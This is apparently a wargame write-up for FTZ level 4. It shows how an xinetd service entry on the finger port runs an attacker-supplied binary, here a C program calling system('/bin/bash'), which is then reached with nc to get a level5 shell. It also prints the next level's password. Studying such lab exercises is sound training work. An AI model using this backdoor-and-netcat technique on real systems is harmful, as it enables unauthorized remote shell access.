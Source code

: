 # Level4

## This level's goal

- xinetd
- Remote backdoor

***
```
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

```
[level4@ftz tmp]$ ls -al /etc/xinetd.d | grep level4
-r--r--r--    1 root     level4        171 Aug 19  2014 backdoor
```

```
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

```
[level4@ftz level4]$ cat /etc/services | grep finger
finger          79/tcp
finger          79/udp
cfinger         2003/tcp                        # GNU Finger
```

```
[level4@ftz level4]$ netstat -an | grep :79
tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN
```

```
[level4@ftz level4]$ ls -l /home/level4/tmp/backdoor
ls: /home/level4/tmp/backdoor: No such file or directory
```

```
[level4@ftz tmp]$ cat backdoor.c
#include <stdlib.h>

int main()
{
        system("/bin/bash");
        return 0;
}
[level4@ftz tmp]$ gcc -o backdoor backdoor.c
[level4@ftz tmp]$ chmod 777 backdoor
```

```
[level4@ftz tmp]$ finger level4@localhost
/bin/bash: line 1: level4
: command not found
id
my-pass
```

This is not working, cuz this level's concept is remote backdoor.

so you need to use nc(netcat) or telent command in remote

```
┌──(root💀kali)-[~]
└─# nc 192.168.10.240 79
id
uid=3005(level5) gid=3005(level5)
my-pass
Level5 Password is "what is your name?".
```
